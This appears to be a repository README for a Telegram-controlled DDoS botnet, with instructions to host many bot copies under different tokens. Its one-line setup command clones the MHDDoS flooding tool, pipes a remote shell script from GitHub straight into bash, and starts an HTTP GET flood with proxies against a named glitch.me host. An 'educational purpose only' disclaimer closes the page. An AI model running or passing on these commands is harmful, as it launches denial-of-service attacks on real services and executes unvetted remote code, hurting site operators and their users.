 # DDOS_Telegram_BOT

DDOS BotNet for telegram, just make differents version of this bot with differents telegram token (in .env file pls).

And host it ! 

## How use it ?

Just clone the repo on your hosting server, make a .env file with a TELEGRAM_TOKEN variable with your telegram token key, 
and make a NUM variable with the name of the bot.

In the shell of your hosting server make this config command : 

``` /usr/bin/python3 -m pip install --upgrade pip && pip3 uninstall telegram && pip3 uninstall telegram-bot python-telegram-bot && pip3 install -r requirements.txt &&git clone https://github.com/MatrixTM/MHDDoS.git && cd MHDDoS && pip3 install -r requirements.txt && curl -s https://raw.githubusercontent.com/SlavaUkraineSince1991/DDoS-for-all/main/scripts/python_git_MHDDoS_proxy_install.sh | bash && python3 ~/MHDDoS/start.py GET panpan-bot1.glitch.me 1 100 mhddos_proxy/list 100 5 ```





# Just for educational purpose only !!
